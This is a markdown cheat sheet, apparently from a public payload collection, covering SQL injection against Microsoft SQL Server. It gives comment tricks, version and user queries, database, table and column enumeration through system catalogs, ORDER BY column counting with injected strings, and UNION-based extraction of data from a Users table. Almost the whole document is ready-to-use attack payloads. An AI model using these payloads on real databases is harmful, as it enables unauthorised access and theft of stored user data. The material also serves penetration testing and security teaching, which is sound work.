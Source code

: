 # MSSQL Injection

## Summary

* [MSSQL comments](#mssql-comments)
* [MSSQL Current User](#mssql-User)
* [MSSQL version](#mssql-version)
* [MSSQL database name](#mssql-database-name)
* [MSSQL List databases](#mssql-list-databases)
* [MSSQL List columns](#mssql-list-columns)
* [MSSQL List tables union](#mssql-list-tables)
* [MSSQL Union Based](#mssql-union-based)


## MSSQL comments

```sql

/*	    C-style comment
--	    SQL comment
;%00	    Nullbyte
```
--------------------------------------------------------------------------------------------------------

## MSSQL User

```sql
SELECT CURRENT_USER
```
--------------------------------------------------------------------------------------------------------

## MSSQL version

```sql
SELECT @@version
---------------------------------------------------------
Example:
True if MSSQL version is 2008.
SELECT * FROM Users WHERE id = '1' AND @@VERSION LIKE '%2008%';
Note:

Output will also contain the version of the Windows Operating System.
```
--------------------------------------------------------------------------------------------------------

## MSSQL database name

```sql
SELECT DB_NAME()
---------------------------------------------------------
Database.Table	master..sysdatabases
Column	        name
Current DB	    DB_NAME(i)
```
--------------------------------------------------------------------------------------------------------

## MSSQL List databases

```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
---------------------------------------------------------
pubs	            Not available on MSSQL 2005
model	            Available in all versions
msdb	            Available in all versions
tempdb	            Available in all versions
northwind	        Available in all versions
information_schema	Availalble from MSSQL 2000 and hig
```
--------------------------------------------------------------------------------------------------------

## MSSQL List columns

```sql
ORDER BY n+1;
---------------------------------------------------------
Given the query: SELECT username, password, permission FROM Users WHERE id = '1';

1' ORDER BY 1--	True
1' ORDER BY 2--	True
1' ORDER BY 3--	True
1' ORDER BY 4--	False - Query is only using 3 columns

Note:
Keep incrementing the number until you get a False response.
Retrieving Columns:-

(We can retrieve the columns from two different databases, information_schema.columns or masters..syscolumns.)

UNION SELECT name FROM master..syscolumns WHERE id = (SELECT id FROM master..syscolumns WHERE name = 'tablename')
```
--------------------------------------------------------------------------------------------------------

## MSSQL List tables 

```sql

SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, table_name FROM information_schema.columns

Retrieving Tables:-
UNION SELECT name FROM master..sysobjects WHERE xtype='U'       FOR UNION base Attack

Note:
Xtype = 'U' is for User-defined tables. You can use 'V' for views.

```
--------------------------------------------------------------------------------------------------------

## MSSQL Union Based

```sql
-- extract databases names
$ SELECT name FROM master..sysdatabases
[*] Injection
[*] msdb
[*] tempdb

-- extract tables from Injection database
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
[*] Profiles
[*] Roles
[*] Users

-- extract columns for the table Users
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName

-- Finally extract the data
$ SELECT  UserId, UserName from Users
```

